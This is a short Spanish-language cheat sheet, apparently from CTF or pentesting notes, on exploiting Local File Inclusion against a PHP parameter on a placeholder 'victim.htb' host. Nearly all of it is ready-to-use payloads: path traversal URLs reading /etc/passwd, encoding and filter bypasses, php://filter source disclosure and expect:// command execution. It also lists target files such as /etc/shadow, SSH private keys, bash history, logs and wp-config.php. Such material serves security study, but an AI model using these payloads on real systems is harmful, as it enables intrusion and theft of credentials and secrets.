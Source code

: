 ## LFI 

Esta vulnerabilidad nos permite visualizar recursos del sistema.

`http://victim.htb/file.php?recurse=cars` # File.php, apunta a traves del parametro "recurse" al archivo cars.

Siendo vulnerable, podemos apuntar a otro fichero moviendonos entre directorios. 

`http://victim.htb/file.php?recurse=../../../../../etc/passwd` # Apuntamos a "passwd" movimiendonos de directorios.

### ByPass LFI

```
http://victim.htb/file.php?recurse=../../../../../etc/passwd% 

http://victim.htb/file.php?recurse=../../../../../etc/passwd?

http://victim.htb/file.php?recurse=%252e%252e%252fetc%252fpasswd

http://victim.htb/file.php?recurse=....//....//....//....//....//etc/passwd

```

### Wrappers LFI

```
http://victim.htb/file.php?recurse=php://filter/read=string.rot13/resource=index.php

http://victim.htb/file.php?recurse=php://filter/convert.base64-encode/resource=index.php

http://victim.htb/file.php?recurse=expect://whoami

```

## 'Archivos & Rutas' a tener en cuenta

### Linux
```
/etc/passwd
/etc/shadow
/etc/hosts
/home/<user>/.ssh/id_rsa
/home/<user>/.bash_history
/etc/apache2/sites-available/000-default.conf
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
/proc/self/environ
../wp-content/wp-config.php
/www/apache/conf/httpd.conf
```
